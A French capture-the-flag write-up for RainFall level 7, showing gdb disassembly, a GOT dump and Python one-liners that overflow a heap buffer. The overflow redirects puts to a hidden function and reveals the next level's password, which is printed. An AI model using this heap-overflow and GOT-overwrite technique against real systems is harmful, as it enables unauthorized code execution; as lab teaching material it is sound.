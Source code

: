# Level 7

Ce niveau est très similaire au [niveau précédent](/level6/README.md), cette fois on peut voir que le binaire ouvre le fichier `/home/user/level8/.pass` et récupère son contenu sans l'afficher.  
Une fonction `m` est présente mais pas utilisée, cette fonction affiche le contenu du fichier `.pass`.

En examinant le code, on peut voir qu'il `malloc` 2 structures et copie les `argv` 1 et 2 dans le pointeur de la structure :
   1. Avec le premier `strcpy`, nous pouvons réecrire l'addresse du pointeur de la deuxième structure par celle de la fonction `puts` et copier à cette adresse celle de notre fonction `m`.
      - `objdump -R level7` nous apprend que `puts` est à l'adresse `08049928` dans la [*Global Offset Table*](https://en.wikipedia.org/wiki/Global_Offset_Table).
      - L'allocation mémoire sur la *heap* est continue. On sait que le malloc d'une `struct level7` pèse 8 octets (un simple `disas main` depuis `gdb` suffit pour le confirmer).
      - Le premier `strcpy` écrit dans `structOne->*buffer` ; le second va écrire dans `structOne->*buffer`. Le but de notre premier exploit est d'écraser le contenu de `structTwo->buffer` pour modifier l'adresse où le contenu de `argv[2]` sera copié. Il nous faudra 20 octets de remplissage avant d'écrire l'adresse de `puts` dans `structTwo->buffer`.
      - Notre premier exploit sera donc la forme : `python -c 'print "B"*20 + "\x28\x99\x04\x08"'`.
   2. Avec le second `strcpy`, nous allons placer l'adresse de la fonction `m`, de façon à ce qu'au moment d'appeller `puts`, ce soit en fait `m` qui soit appellée et exécutée.
      - Avec `gdb`, on détermine l'adresse de `m` : `0x80484f4`.
      - Notre second exploit sera donc `python -c 'print "\xf4\x84\x04\x08"'`.

```shell
level7@RainFall:~$ gdb level7
(gdb) info func
All defined functions:
Non-debugging symbols:
[...]
0x080484f4  m
0x08048521  main
[...]
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
[...]
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
[...]
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) r BBBB AAAA
Starting program: /home/user/level7/level7 BBBB AAAA
Program received signal SIGSEGV, Segmentation fault.
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
(gdb) info variables
All defined variables:
Non-debugging symbols:
[...]
0x08049908  _GLOBAL_OFFSET_TABLE_
[...]
(gdb) x/24a 0x08049908
0x8049908 <_GLOBAL_OFFSET_TABLE_>:	0x804983c <_DYNAMIC>	0xb7fff918	0xb7ff26a0	0x80483b6 <printf@plt+6>
0x8049918 <fgets@got.plt>:	0xb7e90b70 <fgets>	0x80483d6 <time@plt+6>	0xb7eb8aa0	0xb7ea4e70 <malloc>
0x8049928 <puts@got.plt>:	0x8048406 <puts@plt+6>	0x8048416 <__gmon_start__@plt+6>	0xb7e453e0 <__libc_start_main>	0xb7e90e60 <fopen>
0x8049938 <data_start>:	0x0	0x0	0x0	0x0
[...]
0x8049968 <c+8>:	0x0	0x0	0x0	0x0
0x8049978 <c+24>:	0x0	0x0	0x0	0x0
0x8049988 <c+40>:	0x0	0x0	0x0	0x0
0x8049998 <c+56>:	0x0	0x0	0x0	0x0
0x80499a8 <c+72>:	0x0	0x0	0x0	0x0
[...]
0x8049ff8:	0x0	0x0	0x0	0x11
0x804a008:	0x1	0x804a018	0x0	0x11
0x804a018:	0x42424242	0x0	0x0	0x11
0x804a028:	0x2	0x804a038	0x0	0x11
0x804a038:	0x41414141	0x0	0x0	0x20fc1
0x804a048:	0xfbad240c	0x0	0x0	0x0
0x804a058:	0x0	0x0	0x0	0x0
0x804a068:	0x0	0x0	0x0	0x0
(gdb) quit
~ ./level7 `python -c 'print "B"*20+"\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1599750175
```